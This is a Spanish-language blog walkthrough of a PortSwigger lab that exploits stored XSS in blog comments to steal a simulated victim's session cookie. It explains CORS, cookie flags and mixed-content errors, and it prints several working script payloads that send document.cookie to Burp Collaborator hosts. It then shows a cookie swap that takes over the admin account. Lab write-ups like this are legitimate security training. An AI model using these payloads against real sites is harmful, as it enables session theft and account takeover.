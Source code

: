 ```yaml
---
title: Exploiting cross-site scripting to steal cookies
description: Laboratorio de Portswigger sobre XSS
date: 2025-01-18 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - XSS
tags:
  - Portswigger Labs
  - XSS
  - Exploiting cross-site scripting to steal cookies
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una vulnerabilidad de `stored XSS` en la función de `comentarios del blog`. Un usuario `víctima` simulado ve todos los `comentarios` después de que se publiquen. Para `resolver` el `laboratorio`, debemos `explotar` la vulnerabilidad para `exfiltrar` la `cookie de sesión` de la víctima, luego usar esta `cookie` para `suplantar` a la víctima

---

## Guía de XSS

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de XSS` [https://justice-reaper.github.io/posts/XSS-Guide/](https://justice-reaper.github.io/posts/XSS-Guide/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XSS-Lab-22/image_1.png)

Si pulsamos sobre `View post` vemos que tenemos una `sección` en la que podemos hacer `comentarios`

![](/assets/img/XSS-Lab-22/image_2.png)

Al hacer un `comentario` nos mete el `input` en unas `etiquetas <p></p>`

![](/assets/img/XSS-Lab-22/image_3.png)

Sin embargo, si intentamos `inyectar` algo entre `etiquetas <h1></h1>` vemos que nos `inyecta` las `etiquetas` con su `contenido` y deja las `<p></p>` vacías

![](/assets/img/XSS-Lab-22/image_4.png)

Hay diferentes opciones para `obtener` la `cookie`, podemos utilizar `fetch` con las opciones `CORS` o `no-cors` o usando el método `GET` o `POST`. Luego tenemos a `XMLHTTPRequest`, con el cual podemos hacer tanto peticiones `GET` como `POST`, pero no podemos especificar la opción `no-cors`, es decir, siempre se tendrá en cuenta el `CORS` [https://developer.mozilla.org/es/docs/Web/HTTP/CORS](https://developer.mozilla.org/es/docs/Web/HTTP/CORS)

El `CORS` es un mecanismo basado en `cabeceras HTTP` que permite a un `servidor` indicar cualquier `dominio`, `esquema` o `puerto` con un `origen distinto` del suyo desde el que un navegador debería permitir la carga de recursos. `CORS` también se basa en un mecanismo por el cual los `navegadores` realizan una `solicitud` de `verificación previa` al `servidor` que aloja el `CORS`, con el fin de comprobar que el `servidor` permitirá la solicitud real. En esa comprobación previa, el navegador envía `cabeceras` que indican el `método HTTP` y las `cabeceras` que se `utilizarán` en la `solicitud real`

Un ejemplo de `CORS` sería el código `JavaScript` del `front-end`, desde `http://domain-a.com` utiliza `XMLHTTPRequest` para realizar una solicitud a `http://domain-b.com/data.json`

Por razones de `seguridad`, los navegadores restringen las `peticiones HTTP` de origen cruzado iniciadas desde `scripts`. Por ejemplo, `XMLHTTPRequest` y la API `Fetch` siguen la `Política Same-origin`. Esto significa que una `aplicación web` que utilice esas `API` solo puede solicitar `recursos` del mismo `origen` desde el que se cargó la aplicación, a menos que la respuesta de otros `orígenes` incluya las `cabeceras CORS` adecuadas

En esta primera petición estamos mandando una `petición` con el método `POST` y es una petición `asíncrona`, es decir, las operaciones pueden `ejecutarse` en `paralelo` o en `segundo plano`. El programa `no espera` a que una `tarea termine` para continuar con la siguiente, lo que permite que se realicen `múltiples operaciones simultáneamente`

```
<script>
    var request = new XMLHttpRequest();
    request.open('POST', 'http://lf4spwr5be5vcxtn56uquhp4yv4qsgg5.oastify.com', true);
    request.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    var data = 'cookie=' + encodeURIComponent(document.cookie);
    request.send(data);
</script>
```

En este caso la `petición` se `realiza` por el método `GET` y es `síncrona`, lo cual quiere decir que el `programa` se `bloquea` hasta que esa `tarea` se `complete`, lo que `significa` que `no puede hacer nada más mientras espera`

```
<script>
    var request = new XMLHttpRequest();
    request.open('GET', 'http://gk4nurw0g9aqhsyia1zlzcuz3q9lxcl1.oastify.com/cookie=' + encodeURIComponent(document.cookie), false);
    request.send();
</script>
```

Con `fetch`, a diferencia de `XMLHTTPRequest` podemos `especificar` también si usamos `CORS` o no. El `modo no-cors` tiene la `ventaja` de poder `enviar` una `solicitud` a un `servidor` que no esté `configurado` `para permitir solicitudes de otros orígenes` (por ejemplo, un `servidor` en un `dominio diferente`) y también tiene una `desventaja`, `restringe` el `acceso` a la `respuesta`, por lo cual `no podremos leer ni manipular los datos que el servidor envíe de vuelta`

```
<script>
    fetch('http://gk4nurw0g9aqhsyia1zlzcuz3q9lxcl1.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body: encodeURIComponent(document.cookie)
    });
</script>
```

En este caso estamos usando el `método GET` y siguiendo las `convenciones` de `CORS`, ya que es el `modo por defecto`. En este caso tenemos `dos formas` de `transmitir` la `petición` usando el `método GET`, si queremos especificar que `no queremos usar CORS` lo hacemos de esta forma

```
<script>
  fetch("http://0vw75b7krtlasc92lla5aw5jeaka8cw1.oastify.com?cookie=" + encodeURIComponent(document.cookie), {
    method: 'GET',
    mode: 'no-cors'
  });
</script>
```

Si `no necesitamos especificar un modo` podemos `usar` esta otra forma que `seguirá` las `directivas CORS por defecto`

```
<script>
    fetch('http://vut2466fqok5r78xkg909r4ed5j77xvm.oastify.com?cookie=' + encodeURIComponent(document.cookie));
</script>
```

Es importante `realizar` las `peticiones` a un `servidor` mediante `HTTPS` y no `HTTP` en este caso. Si usamos este `payload` la `petición` será `bloqueada` y no nos llegará nada a nuestro `servidor` de `Burpsuite Collaborator`

```
<script>
    fetch('http://vut2466fqok5r78xkg909r4ed5j77xvm.oastify.com?cookie=' + encodeURIComponent(document.cookie));
</script>
```

Si nos `abrimos` el `inspector` de `Chrome` y vemos que la `flag Secure` está seteada en la `cookie`, esta flag asegura que la `cookie` solo se enviará a través de conexiones `seguras` (`HTTPS`). Es una `medida de seguridad` para `evitar` que las `cookies` sean `transmitidas` a través de `conexiones no seguras` (`HTTP`), donde podrían ser `interceptadas` por un `atacante`. A pesar de tener esta `flag`, seguimos pudiendo obtener esta `cookie` mediante `XSS` debido a que la `flag HttpOnly no está seteada`. Esta `flag` se encarga de impedir que la `cookie` sea `accesible` a través de `JavaScript`. Si una `cookie` tiene ambas flags (`HttpOnly` y `Secure`), no podremos acceder a ella a través de `JavaScript` aunque se transmita solo por `HTTPS` y tendremos que buscar `formas alternativas`

![](/assets/img/XSS-Lab-22/image_5.png)

Si nos `abrimos` la `consola` de `desarrollador` vemos como la `petición` ha sido `bloqueada` por no ser una `petición` a un `servidor` que soporte `HTTPS`. El error `Mixed Content`, ocurre cuando una `página web cargada a través de HTTPS` intenta hacer una `solicitud` a un `recurso a través de HTTP`. Esto es considerado `inseguro` y, por lo tanto, el `navegador bloquea la solicitud` para `proteger` la `seguridad` y la `privacidad` de la `web`

![](/assets/img/XSS-Lab-22/image_6.png)

Para `resolver` el `laboratorio` debemos irnos a `Burpsuite Collaborator`, pulsar en `copy to clipboard`, `sustituir` este `subdominio` en alguno de los `cuatro tipos de payloads` explicados anteriormente y `enviarlo a través de un comentario`

![](/assets/img/XSS-Lab-22/image_7.png)

Como hay un `usuario revisando nuestro comentarios`, en el momento en el que `entre al post donde se encuentra publicado nuestro comentario` nos mandará a `Burpsuite Collaborator` sus `cookies`

![](/assets/img/XSS-Lab-22/image_8.png)

Teniendo las `cookies` del `usuario administrador`, nos debemos ir al `navegador`, pulsar `Ctrl + Shift + i` para que nos abra el `inspector` de `Chrome`, `sustituir` la `cookie` y `refrescar` la `web` pulsando `F5`

![](/assets/img/XSS-Lab-22/image_9.png)

Si pulsamos en `My account` vemos que nos hemos `convertido` en el usuario `administrator`

![](/assets/img/XSS-Lab-22/image_10.png)
